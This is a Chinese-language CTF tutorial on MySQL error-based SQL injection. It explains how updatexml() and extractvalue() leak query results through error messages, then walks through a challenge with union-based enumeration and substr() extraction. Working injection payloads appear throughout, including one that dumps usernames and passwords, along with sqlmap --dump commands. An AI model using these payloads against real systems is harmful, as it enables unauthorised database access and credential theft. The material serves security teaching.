# CTF教程：P12：ctf-web11_报错注入 🐛

在本节课中，我们将要学习SQL注入中的一种重要技术——报错注入。我们将了解它的基本原理、适用场景，并通过一个简单的实战题目来巩固所学知识。

## 什么是报错注入？

上一节我们介绍了联合查询注入，本节中我们来看看报错注入。报错注入是SQL注入的一种。它通常在无法使用联合查询时使用。当然，即使可以使用联合查询，也可以选择使用报错注入，但这就像有捷径却非要绕远路一样。

按照常规思路，报错注入是在“捷径”（联合查询）无法直达时，才考虑的“换乘”方案。

## 报错注入的条件

以下是使用报错注入需要满足的条件：
1.  不能过滤一些关键的函数。
2.  需要有错误回显。这个回显指的是数据库报错信息的输出。

例如，执行一个错误的SQL语句：
```sql
SELECT * FROM users LIMIT 0,
```
数据库会返回一个错误信息，指出语法错误的位置。这就是一个报错。

## 报错注入的核心原理

报错注入的目的，就是**人为构造一个错误**，并且让这个错误的日志信息中包含我们想要查询的数据结果。这样，通过查看错误信息，就能获取所需内容。



在MySQL中，`updatexml()`和`extractvalue()`是常用于报错注入的函数。它们用于操作XML文档。



`updatexml()`函数的作用是改变XML文档中符合条件的节点的值。它的第二个参数应该是一个XPath表达式（用于在XML中寻址）。如果我们提供的第二个参数不是一个合法的XPath，它就会报错。



我们可以利用这一点，将我们想要查询的`SELECT`语句结果，拼接成一个非法的XPath表达式。

例如，构造如下注入语句：
```sql
AND updatexml(1, concat(0x7e, (SELECT user()), 0x7e), 1)
```
*   `0x7e`是波浪线`~`的十六进制表示，它通常不是合法的XPath语法，用于确保触发报错。
*   `(SELECT user())`是我们想要查询的内容。
*   `concat()`函数将波浪线和查询结果拼接在一起。



执行后，数据库会因为XPath语法错误而报错，并在错误信息中输出拼接后的字符串，从而泄露`SELECT user()`的查询结果。

同理，我们可以查询其他信息：
```sql
AND updatexml(1, concat(0x7e, (SELECT database()), 0x7e), 1)
AND updatexml(1, concat(0x7e, (SELECT group_concat(username, password) FROM users), 0x7e), 1)
```

`extractvalue()`函数与`updatexml()`原理类似，只是它只有两个参数。使用时去掉第三个参数即可：
```sql
AND extractvalue(1, concat(0x7e, (SELECT user()), 0x7e))
```

## 实战演练：一个简单的SQL注入点

接下来我们通过一道题目来实际体会。这是一个学生信息查询系统，输入学号即可查询学生信息。

首先，我们确定注入点。在参数后添加单引号`‘`，页面返回了详细的数据库错误信息，说明存在SQL注入漏洞，并且很可能是字符型注入。

我们使用常规方法进行测试：
1.  **判断注入类型**：输入 `1‘ and ‘1’=’1` 和 `1‘ and ‘1’=’2`，根据页面返回差异确认存在注入。
2.  **判断列数**：使用 `order by` 语句，当 `order by 4` 时报错，说明当前查询结果有3列。
3.  **确定回显位**：使用 `union select 1,2,3`，并通过构造条件让原查询不返回结果（例如 `and 1=2`），从而让页面显示我们联合查询的 `1,2,3`。发现三列内容均可回显。

## 利用联合查询获取数据

在确定回显位后，我们可以利用联合查询系统地获取数据。

以下是利用HackBar插件或手动构造语句进行信息收集的步骤：
1.  **查询所有数据库名**：
    ```sql
    union select 1, group_concat(schema_name), 3 from information_schema.schemata
    ```
2.  **查询当前数据库的所有表名**：
    ```sql
    union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema=database()
    ```
    假设得到表 `student` 和 `teacher`。
3.  **查询指定表（如`teacher`）的所有列名**：
    ```sql
    union select 1, group_concat(column_name), 3 from information_schema.columns where table_schema=database() and table_name=‘teacher’
    ```
    假设得到列 `id`, `name`, `card_password`。
4.  **查询目标数据**：
    ```sql
    union select 1, card_password, 3 from teacher
    ```
    成功获取到`flag`。

## 利用报错注入获取数据

我们也可以使用报错注入来完成上述最后一步——获取`card_password`。

构造以下注入语句：
```sql
and extractvalue(1, concat(0x7e, (select card_password from teacher), 0x7e))
```
执行后，可能会发现返回的错误信息被截断，无法显示完整的`flag`。



这是因为`extractvalue()`报错返回的信息长度有限制。解决方法是对查询结果进行截取，使用`substr()`函数分段获取。



例如，获取从第15个字符开始的内容：
```sql
and extractvalue(1, concat(0x7e, substr((select card_password from teacher), 15), 0x7e))
```
通过调整`substr()`的起始位置，可以逐段获取完整的`flag`。

## 使用SQLMap自动化工具





除了手动注入，我们还可以使用自动化工具`SQLMap`。基本命令如下：
*   探测数据库：`sqlmap -u “目标URL” --dbs`
*   探测当前数据库：`sqlmap -u “目标URL” --current-db`
*   列出指定数据库的所有表：`sqlmap -u “目标URL” -D 数据库名 --tables`
*   列出指定表的所有列：`sqlmap -u “目标URL” -D 数据库名 -T 表名 --columns`
*   导出指定表的数据：`sqlmap -u “目标URL” -D 数据库名 -T 表名 --dump`







使用这些命令可以快速、自动地完成从信息收集到数据导出的全过程。

## 总结



本节课中我们一起学习了报错注入技术。我们了解了报错注入的原理是利用如`updatexml()`、`extractvalue()`等函数的特性，故意触发数据库错误，并将查询结果包含在错误信息中输出。我们通过一个实战题目，练习了从发现注入点到利用联合查询和报错注入获取数据的完整流程。最后，我们还介绍了使用SQLMap自动化工具的方法。报错注入是SQL注入中一种有效且常用的手段，尤其适用于有错误回显但无法直接进行联合查询的场景。